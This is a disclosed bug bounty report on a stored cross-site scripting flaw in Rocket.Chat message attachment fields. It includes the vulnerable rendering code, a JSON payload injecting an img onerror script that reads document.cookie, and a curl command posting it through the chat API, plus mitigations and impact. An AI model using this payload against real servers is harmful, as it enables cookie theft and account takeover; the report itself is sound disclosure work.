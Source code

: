 # XSS in message attachment fileds.

## Report Details
- **Report ID**: 899954
- **URL**: https://hackerone.com/reports/899954
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-06-16T21:19:49.402Z
- **Disclosed**: 2021-01-17T18:37:40.648Z

## Reporter
- **Username**: fabianfreyer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report!

**Summary:** There is a Cross-Site Scripting vulnerability in the message attachment fields.

**Description:**

If no custom renderer is set, the `specializedRendering` function will render any HTML provided in the `value` field of the attachment:

```js
	specializedRendering({ hash: { field, message } }) {
		let html = '';
		if (field.type && renderers[field.type]) {
			html = Blaze.toHTMLWithData(Template[renderers[field.type]], { field, message });
		} else {
			// consider the value already formatted as html
			html = field.value;
		}
		return `<div class="${ field.type }">${ html }</div>`;
	},
```

## Releases Affected:

  * Rocket.Chat up to 3.3.3

## Steps To Reproduce (from initial installation to vulnerability):

1. Get an Personal Access Token.
2. Create a channel "#cookies"
3. Invite administrators into "#cookies", e.g. by promising them yummy cookies.
4. Put the following payload in a file, calling it `cookiesplz.json`:

    ```
    {
        "channel": "#cookies",
        "text": "Hi, I'd like a cookie please",
        "attachments": [
            {
                "text": "ohai",
                "fields": [
                    {
                        "type": "hello from project pwner",
                        "title": "pwn",
                        "value": "test<img src=x onerror='alert(document.cookie);'/>",
                        "short": false
                    }
                ]
            }
        ]
    }
   ```

5. Run the following curl request: `curl -H "X-Auth-Token: <Token>" -H "X-User-Id: <user Id>" -H "Content-type:application/json" https://<server>/api/v1/chat.postMessage -d @cookiesplz.json`

## Supporting Material/References:

  * https://docs.rocket.chat/api/rest-api/methods/chat/postmessage#attachment-field-objects

## Suggested mitigation

  * Don't render verbatim HTML from user input.
  * Mitigate XSS using CSP headers.

## Impact

Using this vulnerability, an attacker can steal cookies of other users, including administrators to elevate their privileges. They can leak a user’s messages, critically impacting confidentiality. An attack payload may also Exit or delete messages, potentially removing traces of exploits and critically impacting integrity and availability. Finally, by escalating privileges, an attacker can restart the server and edit important settings, impacting availability. By using XSS execution, an attacker may send the payload to other users, i.e. this vulnerability is "wormable" on the same server.

In the electron client, this XSS can be used to get remote code execution.

## Attachments
No attachments
